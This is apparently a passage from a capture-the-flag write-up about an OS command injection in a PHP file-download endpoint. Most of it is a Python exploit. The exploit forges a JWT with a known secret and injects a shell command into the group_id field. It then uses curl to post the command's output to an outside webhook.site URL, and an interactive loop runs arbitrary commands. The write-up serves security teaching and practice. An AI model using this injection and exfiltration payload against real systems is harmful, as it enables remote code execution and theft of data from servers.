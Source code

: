 ```php

if ($retval === 0) {
    header("Content-Type: application/octet-stream", true);
    print file_get_contents($tmp_f_name);
    unlink($tmp_f_name);
} else {
    http_response_code(500);
    exit();
}
```

There is an OS Command Injection vulnerability. We can create a cookie with a `group_id` containing a command and get RCE.

```python
# Add this in the Challenge class
def rce(self, cmd):
    JWT_SECRET = "WP{fr0m_bl4ckb0x_2_wh1t3b0x}"
    WEBHOOK = "https://webhook.site/b217b4bf-6acc-4ab2-903c-a3ada20363fd"
    group_id = f';  curl -X POST -d "$({cmd})" {WEBHOOK}'
    payload_jwt = {
        "user_id": 928476593,
        "user": "sadf",
        "pass": "asd",
        "full_name": "WP{R00t_Sm1th}",
        "group_id": group_id,
        "permissions": {
            "upload": "1",
            "listFiles": "1",
            "deleteFiles": "1",
            "listUsers": "1",
            "download": "1",
        },
    }
    jwt_asfd = jwt.encode(payload_jwt, JWT_SECRET, algorithm="HS256")
    
    self.s.headers.update({"Authorization": "Bearer " + jwt_asfd.decode()})
    self.s.get(_(path="/api/filesdownloadall.php"))

while True:
    cmd = input("command:")
    c.rce(cmd)
```

You will find the output of the command on your webhook. Execute `cat /flag-deadc0de` to get the flag.

![Untitled](images/Untitled%202.png)
